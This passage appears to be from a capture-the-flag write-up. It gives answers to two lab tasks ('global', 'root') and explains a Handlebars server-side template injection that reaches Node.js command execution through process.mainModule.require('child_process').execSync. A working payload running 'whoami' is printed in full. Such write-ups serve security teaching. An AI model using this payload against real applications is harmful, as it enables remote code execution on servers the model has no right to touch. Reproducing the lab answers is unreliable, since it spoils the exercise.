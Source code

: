 ![Repeater](repeater2.png)


---

#### Task 9

**What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?**

> global


---

#### Task 10

**By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?**

> root

Looking at the Node.js documentation, we see that there is a `process` object that has a `mainModule` variable. Additionally this `mainModule` varaible is deprecated and has been replaced with `require.main`. Since our HackTricks code didn't work because the `require` variable wasn't defined, we can try to use `process.mainModule` instead of `require`. Additionally we change `exec` to `execSync` so that the website waits for our supplied command `whoami` to execute before changing the website:

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```